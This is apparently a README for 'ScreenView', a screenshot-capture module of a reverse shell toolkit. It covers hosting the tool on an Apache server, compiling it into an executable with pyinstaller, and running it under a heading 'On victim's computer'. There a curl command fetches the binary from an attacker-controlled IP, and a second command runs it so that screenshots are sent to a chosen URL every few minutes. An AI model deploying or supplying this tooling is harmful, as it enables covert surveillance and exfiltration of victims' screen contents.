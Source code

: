 # ScreenView
The <a href="https://github.com/MrSharkSpamBot/ShadowSharkReverseShell">Shadow Shark</a> ScreenView module.

## Installation
### Debian
```
$ sudo apt-get install python3 python3-pip git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ sudo chown -R www-data:www-data /var/www/html/ScreenView/
$ cd ScreenView/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S python python-pip git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ sudo chown -R www-data:www-data /var/www/html/ScreenView/
$ cd ScreenView/
$ pip3 install -r requirements.txt
```

## Usage
### On victim's computer
```
$ curl http://IP/ScreenView/ScreenView.(exe, app, etc) --output ScreenView.(exe, app, etc)
$ ScreenView.(exe, app, etc) --time (# Minutes) --url (Url to send screenshot to)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico ScreenView.py
```
